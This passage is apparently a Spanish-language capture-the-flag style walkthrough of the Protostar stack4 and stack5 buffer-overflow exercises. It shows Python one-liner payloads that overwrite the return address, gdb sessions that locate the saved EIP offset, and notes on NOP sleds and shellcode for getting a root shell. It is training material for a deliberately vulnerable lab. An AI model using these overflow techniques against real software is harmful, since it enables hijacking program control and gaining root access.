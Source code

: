 ```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*76 + '\xf4\x83\x04\x08')" | ./stack4
code flow successfully changed
Segmentation fault -> Aunque se queje nos ha ejecutado la win (el mensaje de antes)
```
```console
(gdb) disas win
0x080483fa <win+6>:	mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:	call   0x804832c <puts@plt>
...
(gdb) x/s 0x80484e0
0x80484e0:	 "code flow successfully changed"
```
---------------------------------------------------------------------------

# Shellcode BufferOverflow 

> [stack5](https://exploit.education/protostar/stack-five/)

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('AAAA'*17 + 'BBBB')" | ./stack5
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('AAAA'*18 + 'BBBB')" | ./stack5
Segmentation fault
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('AAAA'*18 + 'BBBB')" > /tmp/pattern
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack5
(gdb) run </tmp/pattern
Program received signal SIGSEGV, Segmentation fault. Cannot access memory at address 0x4242424a
(gdb) x/40ex $esp
0xbffff6ac:	0x42424242	0x00000001	0xbffff754	0xbffff75c -> Entonces nuestro eip es "0xbffff6ac"
(gdb) set disassembly-flavor intel
(gdb) disas main
0x080483d9 <main+21>:	leave  
(gdb) b *0x080483d9
(gdb) run </tmp/pattern
(gdb) x/16x $esp
0xbffff650:	0xbffff660	0xb7ec6165	0xbffff668	0xb7eada75
0xbffff660:	0x41414141	0x41414141	0x41414141	0x41414141 -> La entrada de "A" empeiza en 0xbffff660
(gdb) x/x $ebp+4
0xbffff6ac:     0x41414141  -> 4 bytes despues del ebp esta el Eip 
(gdb) p 0xbffff6ac - 0xbffff660
$4 = 76 -> La diferencia entre el cominezo de las AAAA y el eip es de 76.
```
¿Entonces que queremos? Queremos que el eip salte unas pocas posiciones despues y caiga en codigo a ejecutar. 

> NOPs -> "no operation code" código que no hace nada más que seguir el flujo del programa... un tobogan hacia lo que vaya despues.
> \xCC -> Son insutrccione de breakpoint o pausa, si funcionan estas, funcionara un shellcode futuro.

> Shellcode -> El shellcode es codigo a bajo nivel que hace determinadas acciones, en este caso darnos una consola como root.
